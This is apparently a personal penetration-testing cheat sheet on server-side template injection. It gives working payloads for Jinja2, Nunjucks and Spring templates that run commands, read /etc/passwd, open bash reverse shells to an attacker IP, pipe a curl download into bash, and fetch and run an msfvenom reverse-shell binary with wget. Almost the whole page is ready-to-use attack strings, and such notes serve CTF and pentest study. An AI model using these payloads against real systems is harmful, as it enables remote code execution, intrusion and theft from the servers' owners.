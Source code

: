 ## Definition
A __SSTI__ is an attack where the hacker is able to gain remote code execution in the victim's system just by using native template syntax to inject a malicious payload into a template, which is then executed server-side

## When to try this attack
Some occasions could be:
- When the server has [Python in Servers](<General Info/Tecnologias Web/Python in Servers.md>) installed
- When the webserver is [Flask](<General Info/Tecnologias Web/Flask.md>)

## Ways to exploit different templates
Jinja2:
- Allows remote code execution: `{{ self._TemplateReference__context.cycler.\_\_init\_\_.\_\_globals\_\_.os.popen('id').read() }}`
- In order to send a reverse shell you can run: `{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('bash -c "bash -i >& /dev/tcp/10.10.16.9/443 0>&1"').read() }}`
Nunjucks (NodeJS):
- The way to exploit and get RCE is: `{{range.constructor("return global.process.mainModule.require('child_process').execSync('tail /etc/passwd')")()}}`
- For the reverse-shell is: `{{range.constructor("return global.process.mainModule.require('child_process').execSync('curl {YOUR-IP}:{PYTHON-PORT}/{REV-SHELL-FILE} | bash')")()}}` - Meanwhile, you've to be serving a basic reverse-shell bash TCP in your python server, this can be done running: python -m http.server 80 - in the folder that has the file
SpringFramework (Java):
- Way to exploit: `${T(java.lang.Runtime).getRuntime().exec('{BASH-COMMAND}')}` or `*{"".getClass().forName("java.lang.Runtime").getRuntime().exec("{BASH-COMMAND}")}`
- For a reverse-shell: `*{"".getClass().forName("java.lang.Runtime").getRuntime().exec("{BASH-COMMAND}")}` or, another useful way could be:
	- Create a reverse-shell with msfvenom `msfvenom -p linux/x64/shell_reverse_tcp LHOST={IP} LPORT=443 -f elf > r.elf`
	- Start a python http server with `python -m http.server 80`
	- Download the file via SSTI `*{"".getClass().forName("java.lang.Runtime").getRuntime().exec("wget http://{IP}/r.elf")}`
	- Give the file execute permisson ``*{"".getClass().forName("java.lang.Runtime").getRuntime().exec("chmod 777 ./r.elf")}``
	- Execute the file while listening in the port 443 ``*{"".getClass().forName("java.lang.Runtime").getRuntime().exec("./r.elf")}`` meanwhile `nc -lvnp 443`
